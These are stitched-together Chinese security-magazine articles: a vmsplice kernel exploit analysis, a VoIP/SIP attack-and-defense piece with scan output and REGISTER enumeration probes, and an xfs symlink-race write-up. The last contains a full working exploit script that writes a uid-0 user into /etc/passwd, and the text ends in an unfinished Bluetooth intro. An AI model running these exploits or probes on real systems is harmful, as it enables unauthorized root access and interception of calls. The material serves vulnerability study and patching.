这段代码主要是在内存中放置了几个畸形的 pages，然后将 len 值通过系统调用传递给内核函数，使其溢出来执行我们的提权代码 kernel_code()。那么，运行内核函数时究竟是怎样跳到我们的提权代码的呢？带着这个疑问，我们根据 vmsplice 系统调用的流程来走一遍。

系统根据系统调用号找到要执行的内核函数的入口地址，即 sys_vmsplice() 函数（在 /fs/splice.c 中），而 sys_vmsplice() 又调用 get_iovec_page_array() 函数来得到分页数目，而从上面的补丁可以看出，漏洞就出现在 get_iovec_page_array() 函数中。此函数仅仅通过下面的代码来检查 len 和 base 的值是否为零，而没有检查地址是否合法。

```c
if (unlikely(!len))
    break;
error = -EFAULT;
if (unlikely(!base))
    break;
```

由于 len 的值不能等于零，所以执行完 `npages = (off + len + PAGE_SIZE - 1) >> PAGE_SHIFT;` 后，npages 的值至少应该是 1。因为 len != 0，所以 `(off + len + PAGE_SIZE - 1) > PAGE_SIZE`，将 PAGE_SIZE 右移 12（PAGE_SHIFT）位正好是 1。但是，我们的 PoC 代码中，将 len 的值赋为了 `0xffffffff`，所以 `(off + len + PAGE_SIZE - 1)` 的值会发生长整型溢出，结果为 `PAGE_SIZE - 2`，最终的 npages 的值就等于零了。接着，会将 npages 的值传给 get_user_pages() 函数，其功能是加锁一个用户空间缓冲到内存。该函数的原型可以在内核源码 /mm/memory.c 文件中找到。

```c
int get_user_pages(struct task_struct *tsk, struct mm_struct *mm,
    unsigned long start, int len, int write, int force,
    struct page **pages, struct vm_area_struct **vmas)
{
    do {
        ...
        i++;
        len--;
        ...
        do {
            ...
            i++;
            len--;
        } while (len && start < vma->vm_end);
    } while (len);
    return i;
}
```

从上面这个函数可以看出，由于我们将 `npages=0` 传递给了 get_user_pages() 函数中的 len 变量，而 len 变量的值每经过一个循环都会减 1，直到减为 -32768，溢出后又从 +32767 减到 0 时，最外层的循环才会退出，所以返回值会很大。最后，get_user_pages() 的返回值又赋给了 error。

通过下面的循环可以看出，由于 error 的值很大，使 partial 数组溢出，而 pages 数组放在 partial 数组后面，所以 pages 中的指针被赋了零值，而 PoC 代码中的 page 是从内存的零地址开始映射的。所以，指针正好指向了我们的 page。

```c
for (i = 0; i < error; i++) {
    const int plen = min_t(size_t, len, PAGE_SIZE - off);
    partial[buffers].offset = off;
    partial[buffers].len = plen;
    off = 0;
    len -= plen;
    buffers++;
}
```

由于 PoC 代码已经在零地址映射了畸形的 page，所以当内核进行分页时，会调用下面的函数。可以看出 `page[1].lru.next` 正好指向了我们的提权代码 `kernel_code()`。

```c
static void put_compound_page(struct page *page)
{
    page = (struct page *)page_private(page);
    if (put_page_testzero(page)) {
        void (*dtor)(struct page *page);
        dtor = (void (*)(struct page *))page[1].lru.next;
        /* kernel_code() */
        (*dtor)(page);
    }
}


```

## 漏洞修补

- 1. 使用上面提到的补丁文件，给内核打补丁，然后重新编译内核。
- 2. 我的内核版本允许从内存的零地址开始映射，2.6.23 以后的内核可以使用这条命令 `echo 65536>/proc/sys/vm/mmap_min_addr` 来限制允许映射的最低地址为 64kB，这样我们就不能从内存的零地址开始映射了，内核遇到 NULL 指针就会退出，PoC 代码也就不起作用了。
- 3. 将系统中的编译器的权限以 Root 用户设置成 700，这样只有 Root 用户可以使用编译器，其他用户无法编译漏洞的利用代码，也就没法提权了。
- 4. 以 Root 身份编译并运行一次 `disable-vmsplice-if-exploitable.c` 代码，但这种方法只能临时地应对漏洞的利用，重启机器后就失效了。

研究漏洞是为了更进一步增强 Linux 的安全性，而不是去破坏 Linux。从本文我们可以看出开源软件的优点，有了漏洞自己就可以打补丁，重新编译内核，而不用苦等官方的正式补丁了。

适合读者：漏洞爱好者

前置知识：VoIP

# VoIP 安全体系下的全国 Break Through
文/图 funhoo

VoIP 属于 VSS 语音服务安全范畴，全称是 Voice over IP，简单地讲就是 IP 网络电话。长期以来，VoIP 作为商业性基础设施类已经被广泛应用于电子商务领域，作为网络之内整合的一个主流的通信工具（图1），如果没有可靠的安全保障，毫无疑问，我们将进入到一个恶意攻击 VoIP 的新时代。以前黑防对 VoIP 研究甚少，下面我就给大家讲一下 VoIP 安全体系的突破。大家应该了解，这种技术通过对语音信号进行编码数字化，压缩处理成压缩帧，然后转换为 IP 数据包在 IP 网络上进行传输，从而达到了在 IP 网络上进行语音通信的目的。VoIP 技术的主要目的是用于处理语音和信令，因此可以将它分为 4 个功能模块：语音包处理模块（Voice Package Module）、电话信令网关模块（Telephone Signaling Gateway Module）、网络协议模块（Network Protocol Module）和网络管理模块（Network Management Module）。针对这些模块，病毒和木马就有在 VoIP 网络上发挥作用的空间，我所见过的最恶劣的就是针对它的 DDoS，甚至组建 VoIP 僵尸网络，攻击一些通信公司的呼叫中心，往往造成大规模通信网络瘫痪、信息通信中断。由此可见，保障 VoIP 的安全还是任重而道远的。我所了解到的一般的 VoIP 攻击，多是语音服务诈骗、语音窃听、网络钓鱼等，其中语音窃听大家应该有所了解，这也是最简单的攻击，嗅探工具 Cain 在 BT2 环境下就能实现。
图1
图2

## VoIP 网络基础

### 1）系统构成

VoIP 的发展已经经历了 3 个时代，最早在 1995 年以色列的 VocalTec 公司测试，后来到 Peer-to-Peer（P2P）技术，目前最新的技术应该是在第二代基础上建立的 SuperNode 技术。传统的 P2P 构造只考虑两点之间直接进行数据传送，但是在互联网上，两点之间的连接并不一定是最快的，不少情况下通过第三点传输反而会更快，如果这第三点的机器处理效能高的话，符合这样条件的 PC 就被称作 SuperNode，如图2所示。

目前 VoIP 系统一般由 IP 电话终端、网关（Gateway）、网守（Gatekeeper）、网管系统和计费系统等几部分组成。IP 电话终端包括传统的语音电话机、PC、IP 电话机，也可以是集语音、数据和图像于一体的多媒体业务终端。由于不同种类的终端产生的数据源结构是不同的，要在同一个网络上传输，就要由网关或者是通过一个适配器进行数据转换，形成统一的 IP 数据包。IP 电话网关提供 IP 网络和电话网之间的接口，用户通过 PSTN 本地环路连接到 IP 网络的网关，网关负责把模拟信号转换为数字信号并压缩打包，成为可以在因特网上传输的 IP 分组语音信号，然后通过因特网传送到被叫用户的网关端，由被叫端的网关对 IP 数据包进行解包、解压和解码，还原为可被识别的模拟语音信号，再通过 PSTN 传到被叫方的终端。这样，就完成了一个完整的电话到电话的 IP 电话的通信过程。

网守实际上是 IP 电话网的智能集线器，是整个系统的服务平台，负责系统的管理、配置和维护。网守提供的功能有拨号方案管理、安全性管理、集中账务管理、数据库管理和备份、网络管理等等。网管系统的功能是管理整个 IP 电话系统，包括设备的控制及配置、数据配给、拨号方案管理及负载均衡、远程监控等。计费系统的功能是对用户的呼叫进行费用计算，并提供相应的单据和统计报表。计费系统可以由 IP 电话系统制造商提供，也可以由第三方制作，但此时需 IP 电话系统制造商提供其软件数据接口。在实现方式上，VoIP 有电话机到电话机、电话机到 PC、PC 到电话机和 PC 到 PC 等 4 种方式。最初 VoIP 方式主要是 PC 到 PC，利用 IP 地址进行呼叫，通过语音压缩、打包传送方式，实现因特网上 PC 机间的实时语音传送。语音压缩、编解码和打包均通过 PC 上的处理器、声卡、网卡等硬件资源完成，有很大的差异，且限定在因特网内，有很大的局限性。电话到电话，即普通电话经过电话交换机连到 IP 电话网关，用电话号码穿过 IP 网进行呼叫，发送端网关鉴别主叫用户，翻译电话号码／网关 IP 地址，发起 IP 电话呼叫，连接到最靠近被叫的网关，并完成语音编码和打包，接收端网关实现拆包、解码和连接被叫。对于电话到 PC 或是 PC 到电话的情况，是由网关来完成 IP 地址和电话号码的对应和翻译，以及语音编解码和打包。

### 2）主要协议

VoIP 使用的主要协议有 H.323、会话初始协议（SIP）、H.248、媒体网关控制协议（MGCP）4 种，分为对等式协议和主从式协议两大类。对等式协议包括 SIP 和 H.323，主从式协议包括 H.248 和 MGCP。目前较有影响的 VoIP 协议体系包括 ITU-T 提出的 H.323 协议和 IETF 提出的 SIP 协议。VoIP 的核心与关键设备是 IP 电话网关。IP 电话网关具有路由管理功能，它把各地区电话区号映射为相应的地区网关 IP 地址。这些信息存放在一个数据库中，有关处理软件完成呼叫处理、数字语音打包、路由管理等功能。在用户拨打 IP 电话时，IP 电话网关根据电话区号数据库资料，确定相应网关的 IP 地址，并将此 IP 地址加入 IP 数据包中，同时选择最佳路由，以减少传输时延，IP 数据包经因特网到达目的地 IP 电话网关。对于因特网未延伸到或暂时未设立网关的地区，可设置路由，由最近的网关通过长途电话网转接，实现通信业务。

目前，H.323 和 SIP 是分组网内两大相互竞争的协议，其中，H.323 协议是 ITU-T 制定的标准，SIP 协议是 IETF 制定的标准，两者均可以完成呼叫建立、释放、补充业务和能力交换等功能。H.323 协议采用了 ISDN 的设计思想，采用 Q.931 协议完成呼叫的建立和释放，明显具有电信网可管理性和集中的特征。目前，H.323 协议已经在网上得到广泛的应用，与 SIP 比较，H.323 更成熟，因此目前我国各运营商的 IP 电话网均选用该协议。而 SIP 协议具有简单、扩展性好以及和现有的 Internet 应用紧密结合的特点，许多人认为该协议比较容易实施，最近在美国得到快速发展，同时 SIP 将在第三代移动通信核心网和智能业务中得到广泛应用。支持多种协议是软交换的主要特点之一，因此软交换可以同时支持这两种协议。

## VoIP 攻击体系

在这里，我们首先一定要掌握 SIP banner-grabbing 的技巧，SMAP 可以执行 SIP 的搜索功能。

```bash
$ ./smap -o 89.53.17.208/29
```

```text
smap 0.4.0-cvs <bscholz@raisdorf.net> http://www.wormulon.net/
Host 89.53.17.208:5060: (ICMP: OK) SIP: timeout
Host 89.53.17.209:5060: (ICMP: OK) SIP: enabled
AVM FRITZ!Box Fon Series firmware: 14.03.(89|90)
Host 89.53.17.210:5060: (ICMP: timeout) SIP: timeout
Host 89.53.17.211:5060: (ICMP: OK) SIP: enabled
AVM FRITZ!Box Fon Series firmware: 14.03.(89|90)
Host 89.53.17.212:5060: (ICMP: OK) SIP: enabled
AVM FRITZ!Box Fon Series firmware: 14.03.(89|90)
Host 89.53.17.213:5060: (ICMP: timeout) SIP: enabled
Siemens SX541 (firmware 1.67)
Host 89.53.17.214:5060: (ICMP: OK) SIP: enabled
AVM FRITZ!Box Fon Series firmware: 14.03.(89|90)
Host 89.53.17.215:5060: (ICMP: OK) SIP: enabled
AVM FRITZ!Box Fon ata 1.1.03.45
8 hosts scanned: 6 ICMP reachable; 6 SIP enabled
$
```

对于 SIP 的攻击，我主要讲一下 Registration hijacking 方式中的 Identity Theft（身份挟持）。公共运营商在 VoIP 部署环境的身份和端点验证方面所面临的挑战比 PSTN 和网状网络运营商来说严峻得多，原因就在于，端点的 IP 地址在因特网入口点（ingress point）通常不会加以验证，而且不像公共电话号码，目前还没有一个有效的广泛应用的方法可供 VoIP 运营商证明 SIP 身份。于是典型的整合通信拟定寄存器呼叫如图3所示从一个电话到一个注册服务器或代理流过，当 SIP Express Router 是 192.168.1.104 时，我们来看这个例子。

```text
Sent to 192.168.1.104:
REGISTER sip:192.168.1.104 SIP/2.0
Via: SIP/2.0/UDP 192.168.1.120:5060;rport;
branch=z9hG4bK9AE42E04481647949E19C9C281BD7CDC
From: 506 <sip:506@192.168.1.104>;tag=120975822
To: 506 <sip:506@192.168.1.104>
Contact: "506" <sip:506@192.168.1.120:5060>
Call-ID: 9F7F6FB9AFFAA47278BE3CB571B3744D9@192.168.1.104
CSeq: 54512 REGISTER
Expires: 1800
Max-Forwards: 70
User-Agent: X-Lite release 1105x
Content-Length: 0

Received from 192.168.1.104:
SIP/2.0 401 Unauthorized
Via: SIP/2.0/UDP 192.168.1.120:5060;rport=5060;
branch=z9hG4bK9AE42E04481647949E19C9C281BD7CDC
From: 506 <sip:506@192.168.1.104>;tag=120975822
To: 506 <sip:506@192.168.1.104>;tag=b27e1a1d33761e85846fc98f5f3a7e58.bdc9
Call-ID: 9F7F6FB9AFFAA47278BE3CB571B3744D9@192.168.1.104
CSeq: 54512 REGISTER
WWW-Authenticate: Digest realm="domain2", nonce="440bcbe24670d5d0448fd78ec4b672a3c29de346"
Server: Sip Express Router (0.9.6 (i386/linux))
Content-Length: 0
Warning: 392 192.168.1.104:5060 "Noisy feedback tells: pid=29785"
req_src_ip=192.168.1.120 req_src_port=5060
in_uri=sip:192.168.1.104 out_uri=sip:192.168.1.104 via_cnt==1

// 在这里我们收到了预期的 401 SIP 响应，那么我们接下来换一个错误的用户名进行轰炸：
Sent to 192.168.1.104:
REGISTER sip:thisisthecanary@192.168.1.104 SIP/2.0
Via: SIP/2.0/UDP 192.168.1.120:2174;
branch=el7mCh5QhC6WNg
From: test <sip:thisisthecanary@192.168.1.104>
tag=vkffYiKFjn
To: test <sip:thisisthecanary@192.168.1.104>
Call-ID: AXy1SAVzvwd9@192.168.1.120
CSeq: 1 REGISTER
Contact: <sip:test@192.168.1.120:2174>
Max-Forwards: 70
User-Agent: SIPSCAN 1.0
Content-Type: application/sdp
Subject: SIPSCAN Probe
Expires: 7200
Content-Length: 0

Received from 192.168.1.104:
SIP/2.0 401 Unauthorized
Via: SIP/2.0/UDP 192.168.1.120:2174;branch=el7mCh5QhC6WNg
From: test <sip:thisisthecanary@192.168.1.104>;tag=vkffYiKFjn
To: test <sip:thisisthecanary@192.168.1.104>;tag=b27e1a1d33761e85846fc98f5f3a7e58.b11e
Call-ID: AXy1SAVzvwd9@192.168.1.120
CSeq: 1 REGISTER
WWW-Authenticate: Digest realm="domain2", nonce="..."
Server: Sip Express Router (0.9.6 (i386/linux))
Content-Length: 0
Warning: 392 192.168.1.104:5060 "Noisy feedback tells: pid=29782"
req_src_ip=192.168.1.120 req_src_port=2174
in_uri=sip:thisisthecanary@192.168.1.104
out_uri=sip:thisisthecanary@192.168.1.104
via_cnt==1

// thisisthecanary 这个用户名成功收到了之前的 401 SIP 响应，下面我们发给 Asterisk 服务器（192.168.1.103）同样的请求：
Sent to 192.168.1.103
REGISTER sip:192.168.1.103 SIP/2.0
Via: SIP/2.0/UDP 192.168.1.21:2051;branch=z9hG4bK-v7brim4vrk49;rport
From: "Snom 320" <sip:201@192.168.1.103>;tag=e3514iydd
To: "Snom 320" <sip:201@192.168.1.103>
Call-ID: 3c2670092710-9gu6finehewi@snom320
CSeq: 1 REGISTER
Max-Forwards: 70
Contact: <sip:201@192.168.1.21:2051;line=ylcbss9>;q=1.0;+sip.instance="<urn:uuid:bf9b2fe3-b95c-4cfd-96ad-5b52bf1d0c2a>";audio;mobility="fixed";duplex="full";description="snom320";actor="principal";events="dialog";methods="INVITE,ACK,CANCEL,BYE,REFER,OPTIONS,NOTIFY,SUBSCRIBE,PRACK,MESSAGE,INFO"
User-Agent: snom320/4.1
Supported: gruu
Allow-Events: dialog


```
图3

X-Real-IP: 192.168.1.21  
WWW-Contact: <http://192.168.1.21:80>  
WWW-Contact: <https://192.168.1.21:443>  
Expires: 3600  
Content-Length: 0  
Received from: 192.168.1.103  
SIP/2.0 401 Unauthorized  
Via: SIP/2.0/UDP 192.168.1.21:2051;branch=z9hG4bK-v7brjm4vvk49  
From: "Snom 320" <sip:201@192.168.1.103>;tag=e35li4iydd  
To: "Snom 320" <sip:201@192.168.1.103>;tag=as356abebc  
Call-ID: 3c2670092bf2-g9u6jfnehewl@snom320  
CSeq: 1 REGISTER  
User-Agent: Asterisk PBX  
Allow: INVITE, ACK, CANCEL, OPTIONS, BYE, REFER  
Contact: <sip:201@192.168.1.103>  
WWW-Authenticate: Digest realm="asterisk", nonce="38e8e429"

```
// 错误用户名 thisisthecanary 进行拨测 Asterisk 服务器
REGISTER sip:thisisthecanary@192.168.1.103 SIP/2.0
Via: SIP/2.0/UDP 192.168.1.120:2219;branch=el7mCh5QhC6WNg
From: test <sip:thisisthecanary@192.168.1.103>;tag=vkfIYiKFjn
To: test <sip:thisisthecanary@192.168.1.103>
Call-ID: AXyISAVzvwd9@192.168.1.120
CSeq: 1 REGISTER
Contact: <sip:test@192.168.1.120:2219>
Max-Forwards: 70
User-Agent: SIPSCAN 1.0
Content-Type: application/sdp
Subject: SIPSCAN Probe
Expires: 7200
Content-Length: 0
Received from: 192.168.1.103
SIP/2.0 403 Forbidden
Via: SIP/2.0/UDP 192.168.1.120:2219;branch=el7mCh5QhC6WNg
From: test <sip:thisisthecanary@192.168.1.103>;tag=vkfIYiKFjn
To: test <sip:thisisthecanary@192.168.1.103>;tag=as44107711
Call-ID: AXyISAVzvwd9@192.168.1.120
CSeq: 1 REGISTER
User-Agent: Asterisk PBX
Allow: INVITE, ACK, CANCEL, OPTIONS, BYE, REFER
Contact: <sip:thisisthecanary@192.168.1.103>
Content-Length: 0


```

到这里可以发现在错误的用户名下，我们收到了禁用的 403 SIP 响应，而不是 REGISTER 正确的 401 响应。

向 VoIP 目标服务器发送大量的 SIP 呼叫信令消息（如 Invite、Register、Bye 或者 RTP 媒体流数据包）会导致服务降级，迫使呼叫过早丢失，导致某些 VoIP 设备完全无法处理呼叫。这种身份劫持方式比较普遍，如图 4 所示。
如今 SIP 和 RTP 协议并不对呼叫信令数据包和语音流进行加密，所以只要使用局域网和无线局域网流量搜集工具（嗅探器），就能够获取呼叫方的身份、证书和 SIP 统一资源标识符（电话号码），利用漏洞可以发起各种类型的攻击。比如一旦网关被攻破，IP 电话不用经过认证就可随意拨打，攻击者可以使用获取的账户信息向客户代表或者自动服务门户网站假冒用户，然后可以更改呼叫计划，允许呼叫 900 号码或者呼叫原先封锁的国际号码。未经保护的语音通话有可能遭到拦截和窃听，而且可以被随时截断。我们利用重定向攻击可以把语音邮件地址替换成自己指定的特定 IP 地址，为自己打开秘密通道和后门。而最典型的是，我们可以骗过 SIP 和 IP 地址的限制而窃取到整个谈话过程，还可以访问语音邮件，或者更改呼叫转移号码。出于经济目的的攻击者还能够获取语音通话，然后重新播放，从而获得敏感的商业或者私人信息。

## VoIP 防御体系

本着“在攻与防的对立统一中寻求突破”这一宗旨，我们来讨论一下最为典型的防御办法。

- 1) 限制所有的 VoIP 数据只能传输到一个 VLAN 上

Cisco 建议对语音和数据分别划分 VLAN，这样有助于按照优先次序来处理语音和数据。划分 VLAN 也有助于防御费用欺诈、DoS 攻击、窃听、劫持通信等。VLAN 的划分使用户的电脑形成了一个有效的封闭圈子，它不允许任何其他电脑访问其设备，从而也就避免了电脑的攻击，VoIP 网络也就相当安全。即使受到攻击，也会将损失降到最低，如图 5 所示。
图 5

- 2) **监控并跟踪 VoIP 网络的通信模式**

监控工具和入侵探测系统能帮助用户识别那些侵入 VoIP 网络的企图。详细观察 VoIP 日志可以帮助发现一些不规则的东西，如莫名其妙的国际电话，或是本公司或组织基本不联系的国际电话，多重登录试图破解密码，语音暴增等。

- 3) **保护 VoIP 服务器**

必须采取有效措施来保障服务器的安全，以抵御来自内部或外部的入侵者用嗅探技术截获数据。因为 VoIP 电话机拥有固定的 IP 地址和 MAC 地址，所以攻击者易于据此潜入。建议用户限制 IP 和 MAC 地址，不允许随便访问 VoIP 系统的超级用户界面，并在 SIP 网关之前建立另一道防火墙，这样就会在一定程度上限制对网络系统的侵入。

- 4) **使用多重加密**

仅仅对发送的数据包加密是远远不够的，必须对所有的电话信号进行加密。对话音加密会防止拦截者的语音插入到用户会话中。在这方面，SRTP 协议能够对端点通信加密，TLS 能够对整个通信过程加密。应该通过在网关、网络、主机层面上提供强大的保护来支援语音传输加密。

- 5) **建立 VoIP 段落的冗余机制**

要时刻准备着可能会遭到病毒、DoS 攻击，它们可能会导致网络系统瘫痪。构建能够设置多层节点、网关、服务器、电源及呼叫路由器的网络系统，并与不止一个供应商互联。经常性地对各个网络系统进行考验，确保其工作良好，当主服务网络瘫痪时，备用设施可以迅速接管工作。

- 6) **将设备置于防火墙之后**

建立分离的防火墙，这样通过 VLAN 边界的通信仅限于可用的协议。万一客户端受到感染的话，这会防止病毒、木马扩散到服务器。建立分离的防火墙后，系统安全策略的维护也会变得简单。当需要时，必须正确配置防火墙以便开放或关闭某些端口。

- 7) **定期更新补丁**

VoIP 网络的安全性，既依赖于底层的操作系统又依赖于运行其上的应用软件。保持操作系统及 VoIP 应用软件补丁及时更新，对于防御恶意程序或传染性程序代码是非常重要的。

- 8) **将内部网络与 Internet 分开**

将电话管理系统与网络系统置于国际互联网直接访问之外是一个不错的选择，将语音服务与其他服务器置于相互分离的域中，并限制对其访问。

- 9) **将软终端电话（softphone）的使用减至最少**

VoIP 软终端电话易于遭受攻击，即使它位于防火墙之后，因为这种东西是与普通的 PC、VoIP 软件及一对耳机一起使用的。而且，软终端电话并没有将语音和数据分开，因此易于受到病毒和蠕虫的攻击。

- 10) **确保网关的安全**

要配置网关，使那些只有经过允许的用户才可以打出或接收 VoIP 电话，显示那些经过鉴别和核准的用户，这可以确保其他人不能占线打免费电话。通过 SPI 防火墙、应用层网关、网络地址转换工具、SIP 对 VoIP 软客户端的支持等的组合，来保护网关和位于其后的局域网。

## 小结

最后说明一下，本文的理论性比较强，大家完全可以把它作为实战的切入点，发散整体思维，对这个理论框架进行合理性补充，希望它能够发挥最大作用，增强大家对 VoIP 安全性方面的感知。本文大部分资料来自于德国 SUCK-O 社区，对这个研究领域感兴趣的朋友可以到 SUCK-O 论坛上转转，本人代表 SUCK-O 欢迎大家，也欢迎和我们进行其他安全领域的技术交流。

- 前置知识：Linux
- 关键词：Linux、漏洞、XFS

## Linux xfs 服务

### 漏洞利用与分析
文／西部猎手（王聪）

xfs 是 Linux 中 X Window 的字体服务，它的启动脚本中存在漏洞，导致任何用户都有可能被提升为 Root 权限，1.0.2~3.1 版本以下的 xfs 都存在此漏洞。

```
启动 xfs: mkdir: 无法创建目录“/tmp/.font-unix”：文件已存在

[确定]
[root@localhost ~]#
```

此时切换回刚才普通权限用户的 shell，如果有如下输出，说明漏洞已经被利用了，现在是 Root 权限了！

```
[*] Hop, symlink created...
[*] Launching root shell
-sh-3.1# id
uid=0(root) gid=0(root) groups=0(root)
```

## 漏洞重现

打开一个 shell，先看看我的 RHEL5 中的 xfs 版本。

```
[wangcong@localhost ~]$ rpm -qa |grep xorg-x11-xfs
xorg-x11-xfs-1.0.2-3.1
```

正好在受影响的范围内，现在我们先检查一下 passwd 文件的权限。

```
[wangcong@localhost ~]$ ls -l /etc/passwd
-rw------- 1 root root 1955 02-28 19:07 /etc/passwd
```

发现只有 Root 用户对 passwd 文件有读写的权限（看了后文就知道为什么要做这一步了）。然后我们运行漏洞利用脚本——exp.sh，等几秒钟，会显示如下输出：

```
[wangcong@localhost ~]$ id
uid=503(wangcong) gid=503 groups=503
[wangcong@localhost ~]$ sh exp.sh
[*] Generate large data file in /tmp/.font-unix
[*] Wait for xfs service to be (re)started by root...
```

当看见“Wait for xfs service to be (re)started by root...”时，重新打开一个 shell，用 Root 重启 xfs 服务。

```
[root@localhost ~]# service xfs restart
重新启动 xfs:
关闭 xfs [确定]
```

## 漏洞分析

开始之前我们先看看这个漏洞的 EXP 脚本，我已对它做了注释。

```sh
#!/bin/sh
FontDir='/tmp/.font-unix'
Zero=/dev/zero
Size=900000
if [ ! -d $FontDir ]; then
  # 判断目录 /tmp/.font-unix 是否存在，若不存在，说明xfs服务没有运行
  printf "Is xfs running ?\n"
  exit 1
fi
cd /tmp
# 创建一个文件sym.c
cat > sym.c << EOF
#include <unistd.h>
int main(){
  for(;;){if(symlink("/etc/passwd","/tmp/.font-unix")==0)
    {return 0;}}}
EOF
# 一直循环，直到成功创建一个指向 /etc/passwd 的符号链接 /tmp/.font-unix 后退出
cc sym.c -o sym >/dev/null 2>&1
### 编译 sym.c
if [ $? != 0 ]; then
  printf "Error: Cant compile code!"
  exit 1
fi
printf "[*] Generate large data file in $FontDir\n"
dd if=${Zero} of=${FontDir}/BigFile bs=1024 count=${Size} >/dev/null 2>&1
### 用 dd 命令创建一个文件，大小约 1024×900000 字节
if [ $? != 0 ]; then
  printf "Error: cant create large file"
  exit 1
fi
printf "[*] Wait for xfs service to be (re)started by root...\n"
./sym
### 运行 sym
if [ $? != 0 ]; then
  printf "Error: code failed...\n"
  exit 1
fi
if [ -L /tmp/.font-unix ]; then
  # 判断 /tmp/.font-unix 是否为一个符号链接
  printf "[*] Hop, symlink created...\n"
  printf "[*] Launching root shell\n"
  sleep 2
  rm -f /tmp/.font-unix
  echo "r00t::0:0::/:/bin/sh" >> /etc/passwd
  # 直接向 /etc/passwd 文件里插入一行，添加 uid/gid 为 0 的用户
fi
su - r00t
### 切换到刚创建的用户 r00t
```

看完这个 EXP 脚本，我们知道它主要做了下面的工作：创建一个 C 源程序并编译，添加一个 uid 和 gid 都为零的用户，切换至新添加的用户。

这时我们会纳闷，这个脚本怎么能往 /etc/passwd 文件里添加东西呢？前面不是已经检查过 passwd 文件只有 Root 用户可读写吗？我们再次看看 passwd 文件的权限。

```bash
[root@localhost wangcong]# ls -l /etc/passwd
-rwxrwxrwt 1 root root 1968 03-06 21:42 /etc/passwd
```

天！任何人都能读写 passwd 文件了，这是怎么回事？这时我们想到，刚才我们重启了 xfs 服务，肯定是 xfs 服务在重启时做了手脚。

打开 xfs 服务对应的启动脚本 xfs（在 /etc/init.d/ 下），看完后发现是 start() 函数出了问题。

```bash
start() {
  FONT_UNIX_DIR=/tmp/.font-unix
  echo -n $"Starting $prog: "
  [ -x /usr/sbin/chkfontpath ] && buildfontlist
  # Clean out .font-unix dir, and recreate it with the proper ownership and permissions.
  rm -rf $FONT_UNIX_DIR
  # 删除 /tmp/.font-unix 目录
  mkdir $FONT_UNIX_DIR
  # 重新创建一个 /tmp/.font-unix 目录
  chown root:root $FONT_UNIX_DIR
  # 将 /tmp/.font-unix 目录的属主改为 root
  chmod 1777 $FONT_UNIX_DIR
  # 将 /tmp/.font-unix 目录权限改为 777 并加粘滞位
  [ -x /sbin/restorecon ] && /sbin/restorecon $FONT_UNIX_DIR
  daemon xfs -droppriv -daemon
  ret=$?
  [ $ret -eq 0 ] && touch /var/lock/subsys/xfs
  echo
  return $ret
}
```

看完 start() 函数我们明白了，在 xfs 脚本运行时，EXP 脚本不停地尝试创建一个指向 /etc/passwd 的符号链接 /tmp/.font-unix。当 xfs 脚本删除 /tmp/.font-unix 目录后，sym 立刻创建了一个符号链接（由于 sym 是二进制程序，比 xfs 脚本执行快），于是 xfs 脚本又将 /tmp/.font-unix 符号链接的权限改为 777，也就是将 /etc/passwd 的权限改为 777，这时就可以随便添加用户了。

## 漏洞补丁

知道了漏洞发生的原因，我们自己就可以打补丁了，在 xfs 脚本中 `mkdir $FONT_UNIX_DIR` 后面添加下面几句代码即可。

```bash
if [ ! -d /tmp/.font-unix ]; then
  printf "/tmp/.font-unix 不是一个目录!\n"
  exit 1
fi
```

这个补丁就是在改变 `/tmp/.font-unix` 权限之前，先判断它是不是一个目录，如果不是就退出。现在我们用上面的方法看看还有没有漏洞。

```bash
[root@localhost ~]# service xfs restart
重新启动 xfs:
关闭 xfs: [确定]
启动 xfs: mkdir: 无法创建目录“/tmp/.font-unix”: 文件已存在
“/tmp/.font-unix”不是一个目录
[失败]


```

这证明这个漏洞已经被打上了补丁，不再存在威胁了。

## 总结

这个漏洞并不是我们以往所见的溢出型漏洞，而是通过一个符号链接诱骗脚本去修改 `/etc/passwd` 的权限，使我们能成功添加一个 Root 用户。事实上，Linux 下的脚本非常多，说不定下一个发现此类漏洞的就是你呢。

- 前置知识：蓝牙
- 关键词：蓝牙、攻击、蓝牙协议

# 蓝牙攻击

## —— 手机、PDA、蓝牙耳机尽在囊中
文／图 杨哲／Christopher Yang [ZerOne]

当你坐在机场人头涌动的大厅里，漫不经心地翻看着八卦杂志，可曾想过离你五、六米远的桌上，会有一台笔记本正在快速下载并记录着你 PDA 里所有关于后天安全技术峰会的秘密资料？

当你靠在咖啡屋舒适的软椅上，正在和公司的重要合作伙伴建立私人友谊，可曾想过在隔间里，一台笔记本正在快速而又安静地记录你手机里所有客户的电话号码和短信？

……

这不是什么电影，就在我们的身边，就在我们的手上，每一个闪动着蓝色微光的手持设备上，另一个繁华技术背后的安全阴影——蓝牙，难道真是方便了自己也方便了大家？

## 什么是蓝牙？

蓝牙（Bluetooth）的创始人是瑞典爱立信公司，它是一种全球通用的短距离无线传输技术，使用与微波相同的 2.4GHz 附近免付费、免申请的无线电频段。为避免此频段电子装置众多而造成的相互干扰，因而使用了一千六百次高难度跳频以及加密保密技术，传输速率在 432kbp/s 到 721Kbp/s 不等。蓝牙技术非常适合耗电量低的数码设备相互分享数据，如手机、掌上电脑等。而且，蓝牙设备之间还能传送声音，如蓝牙耳机。蓝牙规范中广为应用的成熟版本为 1.1，带宽约 1Mbp/s，也有的版本达 2Mbp/s，所以说，蓝牙非常适合于传送小文件（10MB 以下的图片、铃声、电子书、文稿等等），方便与速度兼得。目前最新版本是 2.1 + EDR 版本。

从其他角度来说，蓝牙也是一种无线标准，就像 ZeeBig 和 Wi-Fi 一样，因为蓝牙标准同样在 2.4GHz 频段下工作，所以很多用户经常混淆。其原本目的是用来取代红外的，与红外技术相比，蓝牙无需对准就能传输数据（红外的传输距离在几米以内）。目前根据传输距离的……

蓝牙（Bluetooth）的创始人是瑞典爱立信公司，它是一种全球通用的短距离无线传输技术，远近来看，蓝牙可分为 Class 1、Class 2 和 Class 3 标准，Class 1 标准传输距离可达 100 米左右，而最短的 Class 3 传输距离只有 1 米左右。我们常用的键鼠产品一般都采用传输距离在 10 米左右的 Class 2 标准。

而蓝牙适配器就是为了各种数码产品能适用蓝牙设备的接口转换器。总线类型可分为 ISA 总线、PCI 总线和 USB 总线，ISA 总线以 16 位传送数据，标称速度能够达到 10MB。PCI 总线以 32 位传送数据，速度较快。目前市面上大多是 10MB 和 100M 的 PCI 总线。随着 USB 接口的逐渐普及及即插即用的特点，现有的蓝牙适配器基本上都为 USB 总线的，即蓝牙 USB 适配器。

虽然蓝牙标准的最高传输速率为 1Mbit/s，相对 2.4GHz 非联网方案来说只是它的一半，不过由于蓝牙设备都有统一的标准，所以任何蓝牙设备在一定范围内都可以互相配对、连接，可以更加广泛地使用，优势非常明显。
